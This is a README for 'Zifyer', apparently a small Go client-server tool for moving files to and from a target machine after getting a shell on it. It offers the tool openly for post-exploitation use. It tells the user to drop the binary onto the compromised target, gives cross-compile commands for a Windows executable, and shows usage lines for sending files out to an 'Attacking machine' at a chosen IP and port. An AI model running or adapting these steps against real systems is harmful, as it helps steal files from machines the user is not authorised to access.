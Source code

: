 <h1>Zifyer Client-Server</h1>
This is a small tool to upload/download files from a machine while connected with a shell to it
<p>Steps:</p>
<p>1. Get a shell to the target</p>
<p>2. Run the server on your machine all files will be under the directory 'uploads'.</p>
<p>3. Drop the Zifyer binary to target machine.</p>
<p>4. Upload/Download files between the shells.</p>

<p>For those who are knew to this:</p>
<p>apt-get install golang</p>

<h3>Compile for windows x86/x64:</h3>
<p>GOOS=windows GOARCH=amd64 go build -o Zifyer.exe Client.go</p>
<p>GOOS=windows GOARCH=386 go build -o Zifyer.exe Client.go</p>

<h3>Compile for linux </h3>

go build Client.go


<h3>Zifyer.exe Usage:</h3>
<p>-h for help</p>
<p>-d download mode</p>
<p>-u upload mode </p>
<p>-H IP </p>
<p>-p Port </p>
<p>-f File </p>

<h4>Download to Server mode: </h4>
<p>Zifyer.exe -d -H "Remote I.P/DOMAIN" -p "Port" -f "file location example: /home/test.txt"</p>

<h4>Upload to Attacking machine mode:</h4>
<p>Zifyer.exe -u -H "I.P/DOMAIN to get file from" -p "Port" -f "file location example: /home/test.txt"</p>


<h3>Zifyer_Server Usage:</h3>
<p>-h for help</p>
<p>-H IP to host server </p>
<p>-p Port </p>


<p>./Zifyer_Server -H "I.p to host the server" -p "Port" 
<p>1. compile -> go build Final_Server.go</p>
<p>2. run -> ./Zifyer_Server -H "Your I.P" -p 9000 </p>
<p> File upload can also be made via Web, just go to your server's url and upload manually :) </p>

